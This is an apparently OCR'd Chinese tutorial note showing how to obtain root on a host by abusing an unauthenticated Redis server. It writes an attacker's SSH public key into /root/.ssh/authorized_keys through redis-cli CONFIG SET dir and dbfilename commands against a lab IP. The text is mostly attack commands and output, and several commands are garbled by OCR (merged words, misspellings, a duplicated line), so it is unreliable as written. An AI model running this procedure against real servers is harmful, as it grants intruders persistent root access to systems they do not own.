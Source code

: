 # 利用持久化，利用"公私钥"认证获取 root 权限

![image-20240530153905972](D:/%E6%96%87%E6%A1%A3/%E7%AC%94%E8%AE%B0/image-20240530153905972.png)

```bash
在攻击机(redis 客户端)
中生成ssh公钥和私钥，
密码设置为空:
	ssh-keygen -t rsa
cd /root/.ssh
ls

进入/root/.ssh 目录:将生成的公钥保存到 1.txt:
	(echo -e"\n\n";cat id_rsa.pub; echo -e "\n\n")
	cd /root/.ssh
	(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n")> 1.txt
```

```bash
连接目标服务器上的 Redis 服务，将保存的公钥1.txt写入Redis(使用redis-cli -hip 命令连
接靶机，将文件写入):
	cat1.txt | redis-cli -h ip -x set crack cat 1.txt | /路径/redis-cli -h 192.168.137.11 -x set crack

登陆靶机，设置如下:
[root@localhost src]# ./redis-cli -h 192.168.137.11

192.168.137.11:6379> config set dir /root/.ssh
(error) ERR Changing directory: No such file or directory

192.168.137.11:6379> config set dir /root/.sshOK
这一步如果报错，说没有.ssh 文件夹，则在靶机上执行sh-keygen-trsa生成下密钥和.ssh文件

CONFlG SET dbfilename authorized keys
ok
```

